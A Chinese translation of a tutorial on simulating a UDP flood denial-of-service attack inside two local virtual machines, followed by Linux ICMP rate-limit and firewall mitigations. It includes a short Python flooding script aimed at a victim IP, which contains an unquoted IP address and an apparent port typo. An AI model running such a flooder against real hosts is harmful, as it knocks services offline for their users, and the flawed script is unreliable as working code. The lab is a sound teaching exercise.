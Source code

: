 > * 原文地址：[How to simulate a UDP Flood DoS attack on your computer](https://levelup.gitconnected.com/how-to-simulate-a-udp-flood-dos-attack-on-your-computer-863b40c44f3f)
> * 原文作者：[RiccardoM](https://medium.com/@riccardom)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md](https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md)
> * 译者：[chaingangway](https://github.com/chaingangway)
> * 校对者：[shixi-li](https://github.com/shixi-li)、[司徒公子](https://github.com/todaycoder001)

# 如何在自己的计算机上模拟 UDP Flood DoS 攻击

![](https://cdn-images-1.medium.com/max/12048/0*5IXgILaawtazZ2Tx)

**免责声明：以下教程仅用于教学目的。您只能在自己的计算机上模拟攻击**

UDP 洪水攻击能让服务器拒绝服务，攻击者向目标服务器发送大量 **UDP**（用户数据报文协议）数据包，以压垮服务器处理和响应传入流量的能力。

攻击者将数据包发送到服务器 IP 地址的随机端口。当服务器收到数据包时：

1. 检查是否有程序监听该端口。
2. 如果发现没有程序监听；大部分情况都是这样，因为目标端口是随机的。
3. 返回 **ICMP Destination Unreachable** 的数据包。

攻击者的 IP 地址可以伪装，以防止 ICMP 响应包的身份识别和自身资源饱和。

## 初始化

为了模拟这种攻击，您需要两台虚拟机。网卡必须配置为在子网中并且有自己的地址。我使用的是 VirtualBox 中非常轻量级的两个 BunsenLabs 实例。它们以桥接模式配置网卡。下面是对每个虚拟机的要求：

* **攻击者**的虚拟机需要安装 python3
* **目标服务器**的虚拟机需要安装 python 3.7 及以上版本

#### 服务器端配置

我们将运行一个简单的 HTTP 服务器，以验证服务器受到攻击时性能是否下降。下面是用 Python 编写的服务器端程序。

```py
import sys
import time
import random
from http.server import ThreadingHTTPServer, BaseHTTPRequestHandler

class DefaultHTTPHandler(BaseHTTPRequestHandler):

  def do_GET(self):
    self.send_response(200)
    self.send_header('Content-type', 'text/plain')
    self.send_header("Cache-Control", "no-cache")
    self.end_headers()

    n = random.randint(1e7,1e8)
    self.wfile.write((("{} is " + ("" if is_prime(n) else "not ") + "a prime number").format(n)).encode("utf-8"))

def base_http_server_start(address="0.0.0.0", port=80):
    handler = DefaultHTTPHandler
    address = (address, port)
    server = ThreadingHTTPServer(address, handler, bind_and_activate=False)
    server.server_bind()
    server.server_activate()
    server.serve_forever()

def is_prime(num):
    res = True
    for i in range(2, num - 1):
        if num % i == 0:
            res = False
    return res

if __name__ == '__main__':
    print("Starting HTTP server on port 80")
    base_http_server_start()
```

通过地址 localhost: 80 访问服务器。在这个服务器程序中，我们生成了一个非常大的随机数，并故意用非常低效的方法检验它是否为质数。通过这种机制，我们在重新加载浏览器页面时就能大致估计服务器的响应时间。响应时间因硬件的计算能力而异，平均值在 5-10 秒左右。

#### 攻击脚本

我们用下面的 Python 脚本执行攻击，这里用到了 socket。

```py
import time
import socket
import random
import sys

victim_ip = 192.168.1.10
duration = 60 # in seconds

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

msg = bytes(random.getrandbits(10))
timeout = time.time() + duration
sent_packets = 0

while time.time() < timeout:
  victim_port = random.randint(1025, 65356)
  sock.sendto(msg, (victim_ip, victim_port))
  sent_packets += 1
```

在脚本中，我们可以指定目标的 IP 地址和攻击的持续时间。如上所述，我们每次都会选择不同的端口来发送数据包。

## 攻击

要执行攻击，我们首先需要运行服务器并使用上述方法检查其性能。接下来，在攻击者的虚拟机中，运行执行攻击的脚本。当服务器受到攻击时，由于其忙于处理传入流量并返回 ICMP Destination Unreachable 数据包，我们可以看到其 CPU 使用率在增加。

然后，我们来重新加载浏览器页面并计算服务器的响应时间。很显然看到服务器性能已急剧下降。响应时间至少应为正常情况下的两倍。

## 缓解

#### Linux 设置

想缓解 UDP 洪水攻击很难。但是我们可以更改操作系统每秒发送的 ICMP 数据包的数量。例如，我们在Linux中使用这两个命令：

```bash
sudo sysctl -w net.ipv4.icmp_ratelimit=0
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1000
```

第一条命令让 ICMP 响应的速率仅能通过第二条命令的参数来设置。因此，在这种情况下，使用第二个命令，我们就能设置 ICMP 消息的速率为每秒 1000 条 。

现在我们来验证这一点，对服务器持续攻击 10 秒钟，并在服务器的虚拟机上使用 Wireshark 来拦截响应的 ICMP 数据包，观察数据包的数量是否符合预期。因为我们将速率设置为每秒 1000 个数据包，所以可以看到在 10 秒内大约发送了 10000 个 ICMP 数据包，这是正确的。

![10.000 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*Kb3xNdtJxxD0L87W9i3IJg.png)

我们可以尝试更改此参数，并使用 Wireshark 检查 10 秒钟内发送的数据包数量如何变化。例如，设置速率为每秒 1 条消息，我们可以捕获大约 10 条消息。

```bash
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1
```

![10 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*3MVskJJFtm4wKB4kT5GiYg.png)

为这些参数设置最佳值是个难点。因为最佳值取决于我们的硬件，应用程序以及与服务器交互的平均流量。如果我们减少每秒发送的响应数，虽然能减少服务器的负载，但这只是丢弃了更多传入的请求，而没有发送 ICMP 响应包。通过减少参数的值，我们可能会拒绝合法的请求，而没有处理真实用户的流量，这会有更大的风险。因此，我们要有一种折衷的办法。

#### 防火墙

我们还可以使用防火墙来抵御这种攻击。防火墙可以在 UDP 数据包到达服务器之前将其阻止。这样就不会耗费服务器资源。但是，防火墙本身也容易受到此类攻击：它们必须处理传入的流量，并且可能在攻击过程中成为瓶颈。此外，如果我们使用的是有状态的防火墙，虽然可以轻松地阻止来自同一 IP 地址的攻击，但是如果攻击者使用了 IP 欺骗，防火墙的状态表可能会塞满，可用内存将被耗尽。因此，防火墙也不是终极解决方案。

## 结论

在本文中，我们通过几个简单的步骤模拟攻击，来帮助我们更好地了解其工作原理。您还可以更详细地研究应对攻击的缓解措施，尝试使用不同的参数来配置服务器。这个过程也很有趣，因为这是一种简单而强大的攻击：如上所述，我们很难采取有效的对策来阻止它。如果您对更复杂的基于 UDP 的攻击感兴趣，请查看[这个](https://levelup.gitconnected.com/how-to-simulate-a-ntp-amplification-dos-attack-on-your-computer-72b3c6f60eb7)故事，在此我解释了如何利用 NTP 服务器来扩大流量，让受攻击的服务器带宽饱和。

> 如果发现译文存在错误或其他需要改进的地方，欢迎到 [掘金翻译计划](https://github.com/xitu/gold-miner) 对译文进行修改并 PR，也可获得相应奖励积分。文章开头的 **本文永久链接** 即为本文在 GitHub 上的 MarkDown 链接。

---

> [掘金翻译计划](https://github.com/xitu/gold-miner) 是一个翻译优质互联网技术文章的社区，文章来源为 [掘金](https://juejin.im) 上的英文分享文章。内容覆盖 [Android](https://github.com/xitu/gold-miner#android)、[iOS](https://github.com/xitu/gold-miner#ios)、[前端](https://github.com/xitu/gold-miner#前端)、[后端](https://github.com/xitu/gold-miner#后端)、[区块链](https://github.com/xitu/gold-miner#区块链)、[产品](https://github.com/xitu/gold-miner#产品)、[设计](https://github.com/xitu/gold-miner#设计)、[人工智能](https://github.com/xitu/gold-miner#人工智能)等领域，想要查看更多优质译文请持续关注 [掘金翻译计划](https://github.com/xitu/gold-miner)、[官方微博](http://weibo.com/juejinfanyi)、[知乎专栏](https://zhuanlan.zhihu.com/juejinfanyi)。
